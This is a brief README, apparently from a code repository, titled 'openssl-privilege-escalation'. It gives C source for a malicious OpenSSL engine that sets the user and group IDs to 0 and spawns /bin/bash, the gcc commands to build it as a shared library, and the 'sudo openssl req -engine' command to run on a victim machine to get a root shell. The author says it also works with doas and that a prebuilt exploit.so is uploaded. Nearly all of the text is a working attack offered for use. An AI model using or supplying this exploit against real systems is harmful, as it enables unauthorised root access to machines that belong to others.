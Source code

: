 # openssl-privilege-escalation
How to get ROOT with openssl <br>

On kali(attacker), create a file called exploit.c with the following content: <br>
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Then execute 2 commands: <br>
`gcc -fPIC -o exploit.o -c exploit.c` <br>
`gcc -shared -o exploit.so -lcrypto exploit.o` <br>

Upload exploit.so to the victim machine then run: <br>
`sudo openssl req -engine ./exploit.so` <br>
(also worked with doas because I have tested it) <br>

I have uploaded the exploit.so, so you can just run the above command without building it <br>
